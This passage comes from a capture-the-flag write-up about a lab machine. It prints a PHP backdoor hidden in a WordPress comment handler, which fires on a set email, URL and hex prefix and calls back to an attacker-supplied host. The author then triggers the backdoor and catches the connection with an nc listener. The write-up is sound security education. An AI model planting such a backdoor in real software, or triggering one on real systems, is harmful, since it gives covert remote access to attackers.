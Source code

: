 I added some whitespace to the code to make the result more readable:

```

if ($comment_author_email == "help@toby.htb" && $comment_author_url== "http://test.toby.htb/" && substr($comment_content,0,8) == "746f6279" {
    $a=substr($comment_content,8);
    $host=explode(":",$a)[0];
    $sec=explode(":",$a)[1];
    $d="/usr/bin/wordpress_comment_validate";
    include $d;
    wp_validate_4034a3($host,$sec);
    return new WP_Error('unspecified error');
}

```

The code is looking for a comment with the email “help@toby.htb”, a specific url, and a comment that starts with eight specific characters. It then takes the rest of the content and splits (`explode`) it on “:”, with the first saved as `$host` and the second as `$sec`. It then passes those to a function I don’t have access to at this time.

### Trigger

Because there’s a `$host` variable, I can guess that it’s making a connection to the given host. It’s not clear what `$sec` is. It would make sense if it were a port number, but the variable name doesn’t fit. It could be “secret”? As port is the best thing I can guess, I’ll try something that looks like a port.

I’ll open Wireshark listening on tun0, and submit this comment:

![image-20220413154213487](https://0xdfimages.gitlab.io/img/image-20220413154213487.png)

With a Wireshark display filter of `!tcp.port==80`, there’s only two other packets that show up, an attempt to connect to my host on TCP 20053:

![image-20220413154319875](https://0xdfimages.gitlab.io/img/image-20220413154319875.png)

### Initial Message

#### Understand $sec

If I open up `nc` to catch the connection, and kick that POST request over to Repeater to send again, it gets a message:

```

oxdf@hacky$ nc -lvnp 20053
Listening on 0.0.0.0 20053
Connection received on 10.10.11.121 42058
0d6617ff-8bae-42a8-b9bf-eb836da95803|786f725f6b65793a30663031316431623134313630313032306431633162303031623066303131643162313731313032303230643163

```
